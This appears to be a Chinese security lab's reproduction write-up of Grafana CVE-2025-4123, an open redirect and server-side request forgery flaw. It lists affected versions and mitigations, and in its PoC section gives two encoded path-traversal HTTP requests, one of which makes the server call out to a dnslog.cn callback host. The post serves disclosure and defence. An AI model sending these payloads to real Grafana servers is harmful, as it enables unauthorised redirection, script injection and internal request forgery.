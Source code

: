 #  【成功复现】Grafana开放重定向&服务端请求伪造漏洞(CVE-2025-4123)   
原创 弥天安全实验室  弥天安全实验室   2025-05-31 15:15  
  
#   
  
网安引领时代，弥天点亮未来    
   
  
  
  
  
  
   
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x00写在前面**  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**  
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x01漏洞介绍**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCX3eXeEoLLKgN8Fk0UnG0Hb2mRyibS5JqDrSnV6VHugw35MJpdP89HKCibDmTtsQ5c9RCdqfWaWicQg/640?wx_fmt=png&from=appmsg "")  
  
Grafana是Grafana开源的一套提供可视化监控界面的开源监控工具。该工具主要用于监控和分析Graphite、InfluxDB和Prometheus等。  
  
Grafana存在安全漏洞，该漏洞源于客户端路径遍历和开放重定向结合，可能导致跨站脚本攻击。  
  
  
注：  
该漏洞允许攻击者通过自定义前端插件将用户重定向到恶意网站，并执行任意 JаvаSсriрt 代码。  
  
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x02影响版本**  
  
  
1、 8.0.0 ≤ grafana <10.4.18  
   
  
2、 11.2.0 ≤ grafana <11.2.9  
   
  
3、 11.3.0 ≤ grafana <11.3.6  
   
  
4、 11.4.0 ≤ grafana <11.4.4  
   
  
5、 11.5.0 ≤ grafana <11.5.4  
   
  
6、 11.6.0 ≤ grafana <11.6.1  
   
  
7、 12.0.0 ≤ grafana <12.0.1   
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCX3eXeEoLLKgN8Fk0UnG0H4J59RE9FU4XmHxlKsh6OlY2phiaFaNNA9Z4BXx9QfSGIXqOsKvnlnbQ/640?wx_fmt=png&from=appmsg "")  
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x03漏洞复现**  
  
1.访问漏洞环境  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCX3eXeEoLLKgN8Fk0UnG0Hiaicd9aFyto4eEsI5Qv21AFiabibwN8JmR03ibGlib9N1b32DmSrdLjkvIag/640?wx_fmt=png&from=appmsg "")  
  
2.对漏洞进行复现  
  
   
**POC**  
  
漏洞复现  
  
1.开放重定向  
```
GET /public/..%2F%5coast.pro%2F%3f%2F..%2F.. HTTP/1.1
Host: 127.0.0.1:8080
```  
  
通过响应判断漏洞存在  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCX3eXeEoLLKgN8Fk0UnG0Huy9ZZoGdTiayCtGLhk7icPSarDm7nfPdZvmybHavvuk1XwuGDpRicGomw/640?wx_fmt=png&from=appmsg "")  
  
  
2.  
服务端请求伪造  
```
GET /render/public/..%252f%255Ckvc1mh.dnslog.cn%252f%253F%252f..%252f.. HTTP/1.1
Host: 127.0.0.1:8080
```  
  
     通过dnslog回显判断漏洞存在  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCX3eXeEoLLKgN8Fk0UnG0HaUBqvtKYsm5AMy8IqImylks4XRibAIk2QJkGMDYD3EKKt20UOouomKA/640?wx_fmt=png&from=appmsg "")  
  
  
3.Yakit插件  
测试  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCX3eXeEoLLKgN8Fk0UnG0HxaPAK4ux8tW2rnLvaViaVS0kBx663Sd9wuD6ic0eXTVeFIrsT1JztaEw/640?wx_fmt=png&from=appmsg "")  
  
  
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x04修复建议**  
  
  
目前厂商已发布升级补丁以修复漏洞，补丁获取链接：  
## 临时缓解措施：  
  
1、添加默认内容安全策略配置。具体操作可参考：  
  
https://grafana.com/docs/grafana/latest/setup-grafana/configure-security/configure-security-hardening/#add-a-content-security-policy  
  
2、禁用Grafana 图像渲染器插件  
  
3、禁用匿名访问：在 grafana.ini 文件中设置 [auth.anonymous] enabled = false  
  
  
建议尽快升级修复漏洞，再次声明本文仅供学习使用，非法他用责任自负！    
```
https://grafana.com/security/security-advisories/cve-2025-4123/
https://grafana.com/blog/2025/05/21/grafana-security-release-high-severity-security-fix-for-cve-2025-4123/
```  
  
     
  
  
  
弥天简介  
  
学海浩茫，予以风动，必降弥天之润！弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。  
  
口号 网安引领时代，弥天点亮未来  
  
  
  
![Image](https://mmbiz.qpic.cn/mmbiz_gif/b96CibCt70iaaqjXT4YxgHVARD1NNv0RvKtiaAvXhmruVqgavPY3stwrfvLKetGycKUfxIq3Xc6F6dhU7eb4oh2gg/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
   
  
  
知识分享完了  
  
喜欢别忘了关注我们哦~  
  
学海浩茫，  
  
予以风动，  
  
必降弥天之润！  
  
   弥  天  
  
安全实验室  
  
![Image](https://mmbiz.qpic.cn/mmbiz_jpg/MjmKb3ap0hDyTJAqicycpl7ZakwfehdOgvOqd7bOUjVTdwxpfudPLOJcLiaSZnMC7pDDdlIF4TWBWWYnD04wX7uA/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
